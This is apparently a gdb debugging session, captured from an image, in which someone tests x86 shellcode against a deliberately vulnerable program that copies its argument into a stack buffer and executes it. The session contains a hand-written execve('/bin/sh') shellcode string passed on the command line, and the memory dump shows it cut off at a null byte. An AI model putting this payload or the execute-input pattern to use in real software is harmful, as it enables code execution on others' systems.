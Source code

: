 ```sh
(gdb) ds main
Dump of assembler code for function main:
   0x08049166 <+0>:     lea    ecx,[esp+0x4]
   0x0804916a <+4>:     and    esp,0xfffffff0
   0x0804916d <+7>:     push   DWORD PTR [ecx-0x4]
   0x08049170 <+10>:    push   ebp
   0x08049171 <+11>:    mov    ebp,esp
   0x08049173 <+13>:    push   ebx
   0x08049174 <+14>:    push   ecx
   0x08049175 <+15>:    sub    esp,0x400
   0x0804917b <+21>:    call   0x80491c0 <__x86.get_pc_thunk.ax>
   0x08049180 <+26>:    add    eax,0x2e74
   0x08049185 <+31>:    mov    edx,ecx
   0x08049187 <+33>:    mov    edx,DWORD PTR [edx+0x4]
   0x0804918a <+36>:    add    edx,0x4
   0x0804918d <+39>:    mov    edx,DWORD PTR [edx]
   0x0804918f <+41>:    sub    esp,0x4
   0x08049192 <+44>:    push   0x400
   0x08049197 <+49>:    push   edx
   0x08049198 <+50>:    lea    edx,[ebp-0x408]
   0x0804919e <+56>:    push   edx
   0x0804919f <+57>:    mov    ebx,eax
   0x080491a1 <+59>:    call   0x8049040 <strncpy@plt>
   0x080491a6 <+64>:    add    esp,0x10
   0x080491a9 <+67>:    lea    eax,[ebp-0x408]
   0x080491af <+73>:    call   eax
   0x080491b1 <+75>:    mov    eax,0x0
   0x080491b6 <+80>:    lea    esp,[ebp-0x8]
   0x080491b9 <+83>:    pop    ecx
   0x080491ba <+84>:    pop    ebx
   0x080491bb <+85>:    pop    ebp
   0x080491bc <+86>:    lea    esp,[ecx-0x4]
   0x080491bf <+89>:    ret
End of assembler dump.
(gdb) b *main+73
Breakpoint 1 at 0x80491af: file vulnprog.c, line 10.
(gdb) r $(printf "\xeb\x20\x5e\x6a\x00\x56\xb8\x0b\x00\x00\x00\x89\xf3\x89\xe1\xba\x00\x00\x00\x00\xcd\x80\xbb\x00\x00\x00\x00\xb8\x01\x00\x00\x00\xcd\x80\xe8\xdb\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x00")
Starting program: ./bin/vulnprog $(printf "\xeb\x20\x5e\x6a\x00\x56\xb8\x0b\x00\x00\x00\x89\xf3\x89\xe1\xba\x00\x00\x00\x00\xcd\x80\xbb\x00\x00\x00\x00\xb8\x01\x00\x00\x00\xcd\x80\xe8\xdb\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x00")

Breakpoint 1, 0x080491af in main (argc=3, argv=0xffffd064) at vulnprog.c:10
10        ((void(*)(void)) code)();
(gdb) x/10i $ebp-0x408
   0xffffcb90:  jmp    0xffffcb92
   0xffffcb92:  add    BYTE PTR [eax],al
   0xffffcb94:  add    BYTE PTR [eax],al
   0xffffcb96:  add    BYTE PTR [eax],al
   0xffffcb98:  add    BYTE PTR [eax],al
   0xffffcb9a:  add    BYTE PTR [eax],al
   0xffffcb9c:  add    BYTE PTR [eax],al
   0xffffcb9e:  add    BYTE PTR [eax],al
   0xffffcba0:  add    BYTE PTR [eax],al
   0xffffcba2:  add    BYTE PTR [eax],al
```
